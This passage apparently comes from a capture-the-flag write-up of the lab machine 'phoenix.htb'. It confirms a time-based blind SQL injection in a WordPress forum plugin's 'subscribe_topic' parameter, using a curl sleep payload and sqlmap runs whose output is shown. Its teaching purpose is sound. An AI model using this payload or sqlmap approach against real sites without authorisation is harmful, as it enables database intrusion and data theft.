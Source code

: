 

If I change the `sleep` to `sleep(1)` the time matches:



    oxdf@hacky$ time curl -k 'https://phoenix.htb/forum/?subscribe_topic=1%20union%20select%201%20and%20sleep(1)'>/dev/null
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 30781    0 30781    0     0  20896      0 --:--:--  0:00:01 --:--:-- 20896

    real    0m1.483s
    user    0m0.021s
    sys     0m0.000s



There's definitely SQL injection going on there.

#### sqlmap Identify

Time-based SQL injection is a pain to do manually, so I'll turn to
`sqlmap`. Given what I know about the vulnerability and that it's
WordPress (so probably using MySQL), I'll give it parameters to speed up
the test:



    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T
    ...[snip]...
    custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] 
    [21:36:30] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
    [21:36:30] [INFO] testing connection to the target URL
    you have not declared cookie(s), while server wants to set its own ('asgarosforum_unique_id=620c1cd656c1a;asgarosforum_unread_cleared=1000-01-01%...%3A00%3A00'). Do you want to use those [Y/n] 
    [21:36:32] [INFO] checking if the target is protected by some kind of WAF/IPS
    [21:36:33] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
    [21:36:33] [INFO] testing for SQL injection on URI parameter '#1*'
    [21:36:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [21:36:33] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)
    [21:36:46] [WARNING] URI parameter '#1*' does not seem to be injectable
    [21:36:46] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. Rerun without providing the option '--technique'. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
    ...[snip]...



It doesn't find anything. Since I know it's there, I'll try more
aggressively (adding `--level 5`). This takes a bit, but finds the
injection:



    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5
    ...[snip]...
    [21:41:56] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace'
    [21:42:07] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 time-based blind - Parameter replac
    e' injectable 
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value?
     [Y/n] 
    [21:43:45] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
    URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 481 HTTP(s) requests: